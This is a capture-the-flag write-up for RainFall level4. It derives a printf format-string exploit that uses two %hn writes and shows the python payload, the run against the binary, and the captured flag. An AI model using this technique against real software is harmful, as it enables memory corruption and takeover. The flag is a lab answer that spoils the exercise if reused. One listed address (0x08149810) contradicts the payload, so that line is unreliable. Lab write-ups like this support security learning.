 1. This program is very close to the one in level3, but there are two important differences :

    - the `printf` function is called in a new function (p())
    - The number to be writtent in memory - and compared to obtain the flag - is much hier :  **0x1025544** (16,930,116 in decimal - way higher than the char limit in one printf call).



2. After disassembling the functions, we can draw the stack state at time of calling printf() :

![Stack](Ressources/StackStateBeforePrintf.png)


3. Let's derive how we should build our string argument - remember which will be put in the buffer - so that the right number is writeen at the right address :

    - As the number of chars to  be written is too large, we will split it in two short ints (2 bytes), and we will use the `%hn` modifier to write each of them on two bytes. So we will first write `0x0102 bytes = 258 chars` followed by `0x5544 bytes = 21828 chars` at memory location `0x08049810`. *Note : always start with the lowest number, as we will have to retreive it from the 2nd number (remember ; in printf it should represent the number of bytes already written!)*

    - Here is basically what we want to achieve :

    ![Stack](Ressources/numberAtAddress.png)

    - Here are the different parts of the string:
        * 0x08049812           --> First address where to write. **4 bytes**
        * 0x08149810           --> Second address where to write our 2 bytes. **4 bytes**
        * %250d                --> 258 - 8 bytes already written = 250 bytes to write
        * %12$hn               --> We ask to write a half-word (2 bytes) at address whose value is stored 12 * 4 = 48 bytes above the location on the stack of the first arg of printf - cf first schema above. This will be the beginning of our buffer => the first address written in the current string!
        * %21570d              --> 21828 - 258 bytes yet to be written for our last number
        * %13$hn               --> Write a half-word corresponding to the number of bytes written up to there, at 52 bytes above = the second address in the current string = buffer.


4. Find the flag :

    ```
    level4@RainFall:~$ (python -c 'print("\x12\x98\x04\x08" + "\x10\x98\x04\x08" + "%250d%12$hn%21570d%13$hn")') > /tmp/exploit
    level4@RainFall:~$ cat /tmp/exploit | ./level4
    ```
    
    output :
    ```
                                                                                                                                                                                                                                                                                   -1073744060
    0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
    ```